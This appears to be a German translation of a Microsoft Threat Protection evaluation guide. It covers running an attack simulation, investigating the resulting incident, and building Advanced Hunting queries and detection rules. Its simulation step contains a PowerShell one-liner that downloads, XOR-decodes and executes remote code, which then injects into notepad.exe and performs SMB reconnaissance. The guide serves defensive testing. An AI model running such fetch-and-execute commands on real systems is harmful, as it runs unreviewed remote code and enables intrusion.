

# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>Ausführen von Microsoft Threat Protection-Angriffssimulationen  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**Gilt für:**
- Microsoft Threat Protection
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>Plan </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>Vorbereiten </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>Simulieren des Angriffs </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>Schließen und zusammenfassen </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

Sie befinden sich derzeit in der Angriffs Simulationsphase.

Nachdem Sie Ihre Pilotumgebung vorbereitet haben, ist es an der Zeit, die Microsoft Threat Protection-Vorfallverwaltung und die automatisierten Ermittlungs-und Korrekturfunktionen zu testen. Wir unterstützen Sie bei der Simulation eines ausgeklügelten Angriffs, der fortschrittliche Techniken nutzt, um die Erkennung zu verbergen. Der Angriff listet die geöffneten SMB-Sitzungen (Server Message Block) auf Domänencontrollern auf und ruft aktuelle IP-Adressen der Benutzer Geräte ab. Diese Kategorie von Angriffen umfasst normalerweise keine Dateien, die auf dem Gerät des Benutzers abgelegt werden – Sie treten ausschließlich im Arbeitsspeicher auf. Sie "Leben außerhalb des Landes" mit vorhandenen System-und Verwaltungstools und fügen Ihren Code in Systemprozesse ein, um deren Ausführung auszublenden, sodass Sie die Erkennung umgehen und auf dem Gerät dauerhaft bleiben können.

In dieser Simulation beginnt unser Beispielszenario mit einem PowerShell-Skript. Möglicherweise wird ein Benutzer zum Ausführen eines Skripts ausgetrickst. Oder das Skript kann von einer Remoteverbindung mit einem anderen Computer als einem zuvor infizierten Gerät ausgeführt werden – dem Angreifer, der versucht, sich seitlich im Netzwerk zu positionieren. Die Erkennung dieser Skripts kann schwierig sein, da Administratoren auch häufig Skripts remote ausführen, um verschiedene administrative Aktivitäten auszuführen.


Während der Simulation injiziert der Angriff Shellcode in einen scheinbar unschuldigen Prozess. In diesem Szenario verwenden wir notepad.exe. Wir haben diesen Prozess für die Simulation ausgewählt, aber Angreifer werden wahrscheinlicher auf einen langwierigen Systemprozess wie svchost.exe Zielen. Der Shellcode fährt dann mit dem Command-and-Control (C2)-Server des Angreifers in Verbindung, um Anweisungen zum Fortfahren zu erhalten. Außerdem versucht das Skript, Aufklärungs Abfragen für den Domänencontroller (DC) auszuführen. Dadurch kann ein Angreifer Informationen zu aktuellen Benutzeranmeldeinformationen abrufen. Wenn Angreifer über diese Informationen verfügen, können Sie sich seitlich im Netzwerk umziehen, um zu einem bestimmten vertraulichen Konto zu gelangen.

>[!IMPORTANT]
>Um optimale Ergebnisse zu erzielen, folgen Sie den Anweisungen zur Angriffssimulation so genau wie möglich.


## <a name="simulation-environment-requirements"></a>Anforderungen an die Simulationsumgebung

Da Sie die Pilotumgebung bereits während der Vorbereitungsphase konfiguriert haben, stellen Sie sicher, dass Sie über zwei Geräte für dieses Szenario verfügen: ein Test Gerät und einen Domänencontroller.

1.  Stellen Sie sicher, dass Ihr Mandant [Microsoft Threat Protection-Schutz aktiviert](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)hat.
2.  Überprüfen Sie die Konfiguration des Testdomänen Controllers:
    - Das Gerät wird mit Windows Server 2008 R2 oder einer höheren Version ausgeführt.
    - Der Testdomänencontroller auf [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) und Aktivieren der [Remoteverwaltung](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).    
    - Stellen Sie sicher, dass die [Azure ATP-und die Microsoft Cloud-App-Sicherheitsintegration](https://docs.microsoft.com/cloud-app-security/aatp-integration) aktiviert wurden.
    - In Ihrer Domäne wird ein Testbenutzer erstellt – es sind keine Administratorberechtigungen erforderlich.

3.  Überprüfen der Konfiguration der Testgeräte:
    <br>
    a.  Das Gerät wird mit Windows 10 Version 1903 oder einer höheren Version ausgeführt.
    <br>
    b.  Das Test Gerät ist der Testdomäne beigetreten.
    <br>
    c.  [Aktivieren Sie Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Wenn Sie Probleme beim Aktivieren von Windows Defender Antivirus haben, lesen Sie dieses [Thema zur Problembehandlung](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    <br>
    d.  Stellen Sie sicher, dass das Testgerät [auf Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)fest vorliegt.

Wenn Sie einen vorhandenen Mandanten verwenden und Gerätegruppen implementieren, erstellen Sie eine dedizierte Gerätegruppe für das Test Gerät, und drücken Sie Sie in der Konfigurations-UX auf die oberste Ebene.


## <a name="run-the-simulation"></a>Ausführen der Simulation

So führen Sie die Angriffsszenario-Simulation aus:

1.  Melden Sie sich mit dem Testbenutzerkonto beim Testgerät an.

2.  Öffnen Sie auf dem Test Gerät ein Windows PowerShell Fenster.

3.  Kopieren Sie das folgende Simulations Skript:
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
>Wenn Sie dieses Dokument in einem Webbrowser öffnen, können Probleme beim Kopieren des vollständigen Texts auftreten, ohne dass bestimmte Zeichen verloren gehen oder zusätzliche Zeilenumbrüche eingeführt werden. Laden Sie dieses Dokument herunter, und öffnen Sie es in Adobe Reader.

4. Fügen Sie an der Eingabeaufforderung das kopierte Skript ein, und führen Sie es aus.

>[!NOTE]
>Wenn Sie PowerShell mithilfe von Remotedesktopprotokoll (RDP) ausführen, verwenden Sie den Befehl Text Zwischenablage im RDP-Client, da die **STRG-V** -Hotkey oder die Rechtsklick-Paste-Methode möglicherweise nicht funktioniert.  Neuere Versionen von PowerShell akzeptieren diese Methode manchmal auch nicht, Sie müssen möglicherweise zuerst in den Editor im Arbeitsspeicher kopieren, Sie in den virtuellen Computer kopieren und dann in PowerShell einfügen.

Einige Sekunden später wird <i>notepad.exe</i> geöffnet. Ein simulierter Angriffscode wird in notepad.exe injiziert. Lassen Sie die automatisch generierte Notepad-Instanz geöffnet, um das vollständige Szenario zu erleben.

Der simulierte Angriffscode versucht, mit einer externen IP-Adresse (simulieren des C2-Servers) zu kommunizieren und dann mithilfe von SMB eine Aufklärung über den Domänencontroller durchführen zu können.

Wenn dieses Skript abgeschlossen ist, wird in der PowerShell-Konsole eine Meldung angezeigt.

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

Wenn Sie die Funktion für automatische Vorfall-und Reaktionsfunktionen in Aktion anzeigen möchten, halten Sie den notepad.exe Prozess geöffnet. Sie werden sehen, dass der Notepad-Prozess automatisch von Vorfall und Antwort beendet wird.


## <a name="investigate-an-incident"></a>Untersuchung eines Vorfalls

>[!NOTE]
>Bevor Sie diese Simulation durchlaufen, sehen Sie sich das folgende Video an, um zu erfahren, wie Sie mit Incident Management die entsprechenden Warnungen im Rahmen des Untersuchungsprozesses zusammenfassen, wo Sie Sie im Portal finden und wie Sie Sie in ihren sicherheitsvorgängen unterstützen können:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Wenn Sie zur SOC Analyst-Perspektive wechseln, können Sie nun mit der Untersuchung des Angriffs im Microsoft 365 Security Center-Portal beginnen. 

1.  Öffnen Sie die Warteschlange des [Microsoft 365-Sicherheits Center-Portals](https://security.microsoft.com/incidents) von jedem Gerät aus.

2.  Navigieren Sie im Menü zu **Vorfälle** . 

    

3.  Der neue Vorfall für den simulierten Angriff wird in der Vorfall Warteschlange angezeigt.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>Untersuchen des Angriffs als einzelner Vorfall

Microsoft Threat Protection korreliert Analysen und aggregiert alle zugehörigen Warnungen und Untersuchungen von verschiedenen Produkten zu einer Vorfall Entität. Auf diese Weise zeigt Microsoft Threat Protection eine breitere Angriffs Geschichte, sodass der SOC-Analyst komplexe Bedrohungen verstehen und darauf reagieren kann.

Die während dieser Simulation generierten Warnungen werden der gleichen Bedrohung zugeordnet und werden als Ergebnis automatisch als einzelner Vorfall aggregiert.

So zeigen Sie den Vorfall an:

1.  Navigieren Sie zur Warteschlange für **Vorfälle** .
 
    

2.  Wählen Sie das neueste Element aus, indem Sie auf den Kreis links neben dem Vorfall Namen klicken. Ein Seitenbereich zeigt zusätzliche Informationen zu dem Vorfall an, einschließlich aller zugehörigen Warnungen. Jeder Vorfall hat einen eindeutigen Namen, der ihn basierend auf den Attributen der darin enthaltenen Warnungen beschreibt.

    

    Die Warnungen, die im Dashboard angezeigt werden, können basierend auf den Dienst Ressourcen gefiltert werden: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection und Office ATP.  

3.  Wählen Sie **Vorfall öffnen** aus, um weitere Informationen zum Vorfall zu erhalten.

    Auf der Seite " **Vorfall** " werden alle Warnungen und Informationen im Zusammenhang mit dem Vorfall angezeigt. Dazu gehören die Entitäten und Objekte, die an der Warnung beteiligt sind, die Erkennungs Quelle der Warnungen (Azure ATP, EDR) und der Grund, warum Sie miteinander verknüpft wurden. Das Überprüfen der Vorfall Warnungsliste zeigt den Fortschritt des Angriffs an. In dieser Ansicht können Sie die einzelnen Warnungen anzeigen und untersuchen.

    Sie können auch im rechten Menü auf **Vorfall verwalten** klicken, den Vorfall markieren, ihn selbst zuweisen und Kommentare hinzufügen.

    

    


### <a name="review-generated-alerts"></a>Überprüfen generierter Warnungen 

Sehen wir uns einige der Warnungen an, die während des simulierten Angriffs generiert wurden.

>[!NOTE]
>Wir werden nur einige der Warnungen durchlaufen, die während des simulierten Angriffs generiert wurden. Je nach der Version von Windows und den Microsoft Threat Protection-Produkten, die auf Ihrem Test Gerät ausgeführt werden, werden möglicherweise weitere Warnungen angezeigt, die in einer etwas anderen Reihenfolge angezeigt werden.

 


**Warnung: beobachtete verdächtige Prozess Injektion (Quelle: Microsoft Defender ATP EDR)**

Fortgeschrittene Angreifer verwenden ausgefeilte und heimliche Methoden, um im Arbeitsspeicher zu bleiben und vor Erkennungstools zu verstecken. Eine gängige Technik besteht darin, in einem vertrauenswürdigen Systemprozess statt in einer schädlichen ausführbaren Datei zu arbeiten, sodass Erkennungstools und Sicherheitsvorgänge den bösartigen Code erkennen können.

Damit die SoC-Analysten diese fortgeschrittenen Angriffe abfangen können, bieten Deep Memory-Sensoren in Microsoft Defender ATP unserem clouddienst eine beispiellose Sichtbarkeit in einer Vielzahl prozessübergreifender Code Injektionstechniken. In der folgenden Abbildung wird gezeigt, wie Microsoft Defender ATP erkannt und bei dem Versuch gewarnt wurde, Code <i>notepad.exe</i>hinzufügen zu können.

 


**Warnung: unerwartetes Verhalten, das von einem Prozess beobachtet wird, der ohne Befehlszeilenargumente ausgeführt wird (Quelle: Microsoft Defender ATP EDR)**

Microsoft Defender ATP-Erkennungen Zielen häufig auf das häufigste Attribut einer Angriffstechnik ab. Dadurch wird die Dauerhaftigkeit gewährleistet und die Messlatte für Angreifer erhöht, um auf neuere Taktiken umzusteigen.

Wir verwenden umfangreiche Lernalgorithmen, um das normale Verhalten allgemeiner Prozesse in einer Organisation und weltweit zu etablieren und zu beobachten, wann diese Prozesse anomale Verhaltensweisen aufweisen. Diese anomalen Verhaltensweisen deuten häufig darauf hin, dass fremder Code eingeführt wurde und in einem ansonsten vertrauenswürdigen Prozess ausgeführt wird.

In diesem Szenario weist das Prozess <i>notepad.exe</i> ein anormales Verhalten auf, das die Kommunikation mit einem externen Speicherort unter Beteiligung betrifft. Dieses Ergebnis ist unabhängig von der spezifischen Methode, mit der der bösartige Code eingeführt und ausgeführt wird.

>[!NOTE]
>Da diese Warnung auf Computer Lernmodellen basiert, die eine zusätzliche Back-End-Verarbeitung erfordern, kann es einige Zeit dauern, bis diese Warnung im Portal angezeigt wird.

Beachten Sie, dass die Warnungsdetails die externe IP-Adresse enthalten – ein Indikator, den Sie als Pivot zum Erweitern der Untersuchung verwenden können.

Klicken Sie in der Struktur des Warnungs Prozesses auf die IP-Adresse, um die Seite IP-Adressdetails anzuzeigen.

 

In der folgenden Abbildung wird die ausgewählte IP-Adress Detailseite (Klicken auf IP-Adresse in der Warnungs Prozessstruktur) angezeigt.


**Warnung: Benutzer-und IP-Adress Aufklärung (SMB) (Quelle: Azure ATP)**

Aufzählung mit dem SMB-Protokoll (Server Message Block) können Angreifer aktuelle Benutzeranmeldeinformationen abrufen, die Sie beim seitlichen Übergang über das Netzwerk zum Zugriff auf ein bestimmtes vertrauliches Konto unterstützen.

Bei dieser Erkennung wird eine Warnung ausgelöst, wenn die SMB-Sitzungs Aufzählung für einen Domänencontroller ausgeführt wird.

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>Überprüfen der Geräte Zeitachse [Microsoft Defender ATP]
Nachdem Sie die verschiedenen Warnungen in diesem Vorfall untersucht haben, navigieren Sie zurück zur Vorfall Seite, die Sie zuvor untersucht haben. Klicken Sie auf der Seite Vorfall auf die Registerkarte **Geräte** , um die an diesem Vorfall beteiligten Geräte zu überprüfen, die von Microsoft Defender ATP und Azure ATP gemeldet wurden.

Klicken Sie auf den Namen des Geräts, in dem der Angriff durchgeführt wurde, um die Entitäts Seite für das jeweilige Gerät zu öffnen. Auf dieser Seite können Sie Warnungen anzeigen, die ausgelöst wurden, und ähnliche Ereignisse.

Klicken Sie auf die Registerkarte **Zeitachse** , um die Geräte Zeitachse zu öffnen und alle Ereignisse und Verhaltensweisen anzuzeigen, die auf dem Gerät in chronologischer Reihenfolge mit den ausgelösten Warnungen beobachtet wurden.

 

Das erweitern einiger interessanter Verhaltensweisen bietet nützliche Details wie Prozess Bäume.

Scrollen Sie beispielsweise nach unten, bis Sie das Warnungsereignis " **verdächtige Prozess Injektion beobachtet**" finden. Klicken Sie auf die **powershell.exe injiziert zu notepad.exe Prozess** Ereignis darunter, um die vollständige Prozessstruktur für dieses Verhalten unter dem Diagramm " **Ereignis Entitäten** " im Seitenbereich anzuzeigen. Verwenden Sie die Suchleiste für die Filterung, falls erforderlich.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Überprüfen der Benutzerinformationen [Microsoft Cloud App security]

Klicken Sie auf der Seite Vorfall auf die Registerkarte **Benutzer** , um die Liste der Benutzer anzuzeigen, die an dem Angriff beteiligt sind. Die Tabelle enthält zusätzliche Informationen zu den einzelnen Benutzern, einschließlich der **Untersuchung der Priorität** der einzelnen Benutzer.

Klicken Sie auf den Benutzernamen, um die Profilseite des Benutzers zu öffnen, auf der weitere Untersuchungen durchgeführt werden können. [Lesen Sie mehr über die Untersuchung riskanter Benutzer](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>


## <a name="automated-investigation-and-remediation"></a>Automatische Untersuchung und Reaktion
>[!NOTE]
>Bevor Sie diese Simulation durchlaufen, sehen Sie sich das folgende Video an, um sich mit der automatischen Selbstheilung vertraut zu machen, wo Sie Sie im Portal finden und wie Sie in ihren sicherheitsvorgängen helfen kann:

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Navigieren Sie zurück zu dem Vorfall im Microsoft 365-Sicherheits Center-Portal. Die Registerkarte unter **suchungen** auf der Seite **Vorfall** zeigt die automatisierten Untersuchungen, die von Azure ATP und Microsoft Defender ATP ausgelöst wurden. Im folgenden Screenshot wird nur die automatische Untersuchung angezeigt, die von Microsoft Defender ATP ausgelöst wurde. Standardmäßig korrigiert Microsoft Defender ATP automatisch die in der Warteschlange gefundenen Artefakte, die eine Korrektur erfordern.


Klicken Sie auf die Warnung, die eine Untersuchung ausgelöst hat, um die Seite **Ermittlungs Details** zu öffnen. Folgendes wird angezeigt:
- Warnung (en), die die automatische Untersuchung ausgelöst haben.
- Betroffene Benutzer und Geräte. Wenn auf zusätzlichen Geräten Indikatoren gefunden werden, werden diese zusätzlichen Geräte ebenfalls aufgeführt.
- Liste der Beweise. Die gefundenen und analysierten Entitäten, beispielsweise Dateien, Prozesse, Dienste, Treiber und Netzwerkadressen. Diese Entitäten werden für mögliche Beziehungen mit der Warnung analysiert und als gutartig oder böswillig bewertet.
- Gefundene Bedrohungen. Bekannte Bedrohungen, die während der Untersuchung gefunden werden.

>[!NOTE]
>Je nach Zeitplan wird die automatische Untersuchung möglicherweise weiterhin durchführen. Warten Sie einige Minuten, bis der Vorgang abgeschlossen ist, bevor Sie die Beweise sammeln und analysieren und die Ergebnisse überprüfen. Aktualisieren Sie die Seite **Ermittlungs Details** , um die neuesten Ergebnisse zu erhalten.


Während der automatischen Untersuchung hat Microsoft Defender ATP den notepad.exe Prozess identifiziert, der als eines der Artefakte, die eine Korrektur erfordern, injiziert wurde. Microsoft Defender ATP stoppt die verdächtige Prozess Injektion automatisch als Teil der automatischen Behebung. 

In der Liste der ausgeführten Prozesse auf dem Testgerät sehen Sie <i>notepad.exe</i> ausgeblendet werden.

## <a name="resolve-the-incident"></a>Beheben des Vorfalls

Schließen Sie den Vorfall, nachdem die Untersuchung abgeschlossen und zur Korrektur bestätigt wurde.

Klicken Sie auf **Vorfall verwalten**. Legen Sie den Status auf **Vorfall auflösen** fest, und wählen Sie die entsprechende Klassifizierung aus.

Nachdem der Vorfall behoben wurde, werden alle zugehörigen Warnungen im Microsoft 365 Security Center und in den dazugehörigen Portalen geschlossen.

 

<br>
Dadurch wird die Angriffssimulation für die Szenarien "Incident Management" und "Automated Investigation and Remediation" umgebrochen. Die nächste Simulation führt Sie durch proaktive Bedrohungs Suche für potenziell schädliche Dateien. 

## <a name="advanced-hunting-scenario"></a>Erweitertes Jagd Szenario

>[!NOTE]
>Bevor Sie die Simulation durchlaufen, sehen Sie sich das folgende Video an, um sich mit den erweiterten Jagd Konzepten vertraut zu machen, sehen Sie, wo Sie es im Portal finden können, und erfahren Sie, wie Sie Sie bei ihren sicherheitsvorgängen unterstützen können:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Anforderungen an die Jagd Umgebung
Für dieses Szenario ist ein einzelnes internes Postfach und Gerät erforderlich. Sie benötigen auch ein externes e-Mail-Konto, um die Testnachricht zu senden.

1.  Stellen Sie sicher, dass [Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)von Ihrem Mandanten aktiviert wurde.
2.  Identifizieren Sie ein Zielpostfach, das für den Empfang von e-Mails verwendet werden soll.
    a.  Dieses Postfach muss von Office 365 ATP b überwacht werden.  Das Gerät aus Anforderung 3 muss auf dieses Postfach zugreifen.
3.  Konfigurieren eines Testgeräts: a.  Stellen Sie sicher, dass Sie die Windows 10-Version 1903 oder höher verwenden.
    b.  Verbinden Sie das Test Gerät mit der Testdomäne.
    c.  [Aktivieren Sie Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Wenn Sie Probleme beim Aktivieren von Windows Defender Antivirus haben, lesen Sie [dieses Thema zur Problembehandlung](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d.  [Onboard bei Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Ausführen der Simulation
1.  Senden Sie von einem externen e-Mail-Konto eine e-Mail an das im Abschnitt Schritt 2 der testumgebungsanforderungen angegebene Postfach. Schließen Sie eine Anlage ein, die über alle vorhandenen e-Mail-Filterrichtlinien zugelassen wird.  Diese Datei muss nicht bösartig oder eine ausführbare Datei sein. Vorgeschlagene Dateitypen sind <i>. PDF</i>, <i>. exe</i> (sofern zulässig) oder Office-Dokument wie eine Word-Datei.
2.  Öffnen Sie die gesendete e-Mail von dem Gerät, das gemäß der Definition in Schritt 3 des Abschnitts testumgebungsanforderungen konfiguriert ist. Öffnen Sie die Anlage entweder, oder speichern Sie die Datei auf dem Gerät.


**Jagd gehen**
1.  Öffnen Sie das Security.Microsoft.com-Portal.
2.  Navigieren Sie zu **Hunting > Advanced Hunting**.

     

3.  Erstellen Sie eine Abfrage, die mit dem Erfassen von e-Mail-Ereignissen beginnt.
    a.  Wählen Sie im Bereich Abfrage die Option neu aus.
    b.  Doppelklicken Sie auf die EmailEvents-Tabelle aus dem Schema.

```
EmailEvents 
```                                        

   c.   Ändern Sie den Zeitrahmen in die letzten 24 Stunden. Angenommen, die e-Mail, die Sie beim Ausführen der obigen Simulation gesendet haben, war in den letzten 24 Stunden, andernfalls ändern Sie den Zeitrahmen.
    


   d.   Führen Sie die Abfrage aus.  Je nach Umgebung für das Pilotprojekt haben Sie möglicherweise viele Ergebnisse.  

>[!NOTE]
>Weitere Informationen finden Sie im nächsten Schritt zum Filtern von Optionen zum Einschränken der Datenrückgabe.

    

>[!NOTE]
>Erweiterte Suche zeigt Abfrageergebnisse als tabellarische Daten an. Sie können auch entscheiden, die Daten in anderen Formattypen wie Diagrammen anzuzeigen.    

   e.   Sehen Sie sich die Ergebnisse an, und prüfen Sie, ob Sie die geöffnete e-Mail identifizieren können.  Es kann bis zu 2 Stunden dauern, bis die Nachricht in Advanced Hunting angezeigt wird. Wenn die e-Mail-Umgebung groß ist und viele Ergebnisse vorliegen, möchten Sie möglicherweise die **Option Filter anzeigen** verwenden, um nach der Nachricht zu suchen. 

   Im Beispiel wurde die e-Mail von einem Yahoo-Konto gesendet. Klicken Sie auf das **+** Symbol neben **Yahoo.com** im Abschnitt SenderFromDomain, und klicken Sie dann auf über **nehmen** , um die ausgewählte Domäne zur Abfrage hinzuzufügen.  Sie sollten die Domäne oder das e-Mail-Konto verwenden, das zum Senden der Testnachricht in Schritt 1 von Ausführen der Simulation verwendet wurde, um die Ergebnisse zu filtern.  Führen Sie die Abfrage erneut aus, um ein kleineres Resultset zu erhalten, um zu überprüfen, ob die Nachricht aus der Simulation angezeigt wird.
   
    


```
EmailEvents 
| where SenderMailFromDomain == "yahoo.com"
```

   f.   Klicken Sie auf die resultierenden Zeilen aus der Abfrage, damit Sie den Datensatz überprüfen können.
    


4.  Nachdem Sie nun überprüft haben, dass die e-Mail angezeigt werden kann, fügen Sie einen Filter für die Anlagen hinzu. Konzentrieren Sie sich auf alle e-Mails mit Anlagen in der Umgebung. Konzentrieren Sie sich in diesem Szenario auf eingehende e-Mails, nicht auf diejenigen, die aus Ihrer Umgebung gesendet werden. Entfernen Sie alle Filter, die Sie zum Auffinden Ihrer Nachricht hinzugefügt haben, und fügen Sie "| wobei **AttachmentCount > 0** und **EmailDirection**  ==  **"eingehend"** "

In der folgenden Abfrage wird das Ergebnis mit einer kürzeren Liste als die anfängliche Abfrage für alle e-Mail-Ereignisse angezeigt:

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"

```

5.  Geben Sie als nächstes die Informationen über die Anlage (beispielsweise: Dateiname, Hashwerte) zu Ihrem Resultset hinzu. Um dies zu tun, fügen Sie die **EmailAttachmentInfo** -Tabelle. Die für den Beitritt zu verwendenden allgemeinen Felder sind in diesem Fall **NetworkMessageId** und **RecipientObjectId**.

Die folgende Abfrage enthält auch eine zusätzliche Verbindung "| **Project-Rename EmailTimestamp = Timestamp**", mit dem ermittelt werden kann, welcher Zeitstempel im Zusammenhang mit den im nächsten Schritt hinzugefügten e-Mail-und Timestamps im Zusammenhang mit Dateiaktionen steht.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
```

6.  Verwenden Sie als nächstes den **SHA256** -Wert aus der **EmailAttachmentInfo** -Tabelle, um **DeviceFileEvents** (Dateiaktionen, die auf dem Endpunkt passiert sind) für diesen Hash zu suchen.  Das allgemeine Feld hier ist der SHA256-Hash für die Anlage.

Die resultierende Tabelle enthält nun Details vom Endpunkt (Microsoft Defender ATP) wie Gerätename, welche Aktion (in diesem Fall gefiltert, sodass nur filecreated-Ereignisse enthalten sind) und wo die Datei gespeichert wurde. Der dem Prozess zugeordnete Kontoname wird ebenfalls einbezogen.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
```

Sie haben jetzt eine Abfrage erstellt, mit der alle eingehenden e-Mails identifiziert werden, bei denen der Benutzer die Anlage geöffnet oder gespeichert hat. Sie können diese Abfrage auch verfeinern, um nach bestimmten Sender Domänen, Dateigrößen, Dateitypen usw. zu filtern.

7.  Funktionen sind eine besondere Art von Join, mit der Sie mehr TI-Daten zu einer Datei abrufen können, beispielsweise die Prävalenz, die Signaturgeber-und Ausstellerinformationen usw.  Um weitere Details zu der Datei zu erhalten, verwenden Sie die **fileprofile ()** -Funktion Bereicherung:

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
| distinct SHA1
| invoke FileProfile()
```


**Erstellen einer Erkennung**

Nachdem Sie eine Abfrage erstellt haben, in der Informationen identifiziert werden, über die Sie in Zukunft **benachrichtigt** werden möchten, können Sie eine benutzerdefinierte Erkennung aus der Abfrage erstellen. 

Bei benutzerdefinierten Erkennungen wird die Abfrage entsprechend der von Ihnen festgelegten Häufigkeit ausgeführt, und durch die Ergebnisse der Abfragen werden Sicherheitswarnungen basierend auf den betroffenen Objekten erstellt, die Sie auswählen. Diese Warnungen werden mit Vorfällen korreliert und können als jede andere Sicherheitswarnung, die von einem der Produkte generiert wurde, unter altert werden.

1.  Entfernen Sie auf der Seite Abfrage die Zeilen 7 und 8, die in Schritt 7 der Anleitung go Hunting hinzugefügt wurden, und klicken Sie auf **Erkennungsregel erstellen**. 
    
     

>[!NOTE]
>Wenn Sie auf **Erkennungsregel erstellen** klicken und in ihrer Abfragesyntax Fehler vorliegen, wird die Erkennungsregel nicht gespeichert. Überprüfen Sie Ihre Abfrage doppelt, um sicherzustellen, dass keine Fehler vorliegen. 


2.  Füllen Sie die erforderlichen Felder mit den Informationen aus, mit denen das Sicherheitsteam die Warnung verstehen kann, warum es generiert wurde und welche Aktionen von Ihnen erwartet werden. 

    

Stellen Sie sicher, dass Sie die Felder mit Klarheit ausfüllen, um dem nächsten Benutzer eine fundierte Entscheidung über diese Warnungsregel Warnung zu geben. 

3.  Wählen Sie aus, welche Entitäten in dieser Warnung betroffen sind. Wählen Sie in diesem Fall **Gerät** und **Postfach**aus.

    
 

4.  Bestimmen Sie, welche Aktionen durchgeführt werden sollen, wenn die Warnung ausgelöst wird. Führen Sie in diesem Fall eine Antivirus-Überprüfung durch, obwohl andere Aktionen durchgeführt werden könnten. 

     

5.  Wählen Sie den Bereich für die Warnungsregel aus. Da diese Abfrage Geräte beinhalten, sind die Gerätegruppen in dieser benutzerdefinierten Erkennung entsprechend dem Microsoft Defender ATP-Kontext relevant.  Beim Erstellen einer benutzerdefinierten Erkennung, die keine Geräte als betroffene Entitäten enthält, gilt der Bereich nicht.  

     

Für dieses Pilotprojekt können Sie diese Regel auf eine Teilmenge der Testgeräte in Ihrer Produktionsumgebung beschränken.

6.  Wählen Sie **Erstellen** aus. Wählen Sie dann im Navigationsbereich **benutzerdefinierte Erkennungsregeln** aus.
 
     

     

Auf dieser Seite können Sie die Erkennungsregel auswählen, mit der eine Detailseite geöffnet wird. 

 

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Zusätzliche erweiterte Jagd-Übungsschritte

Wenn Sie mehr über Advanced Hunting erfahren möchten, werden die folgenden Webcasts Sie durch die Funktionen der erweiterten Suche in Microsoft Threat Protection (MTP) führen, um Cross-Pillar-Abfragen zu erstellen, auf Entitäten zu pivotieren und benutzerdefinierte Erkennungen und Korrekturaktionen zu erstellen.

>[!NOTE]
>Lassen Sie sich mit Ihrem eigenen GitHub-Konto vorbereiten, um die Jagd Abfragen in ihrer Pilot Test Lab-Umgebung auszuführen.  

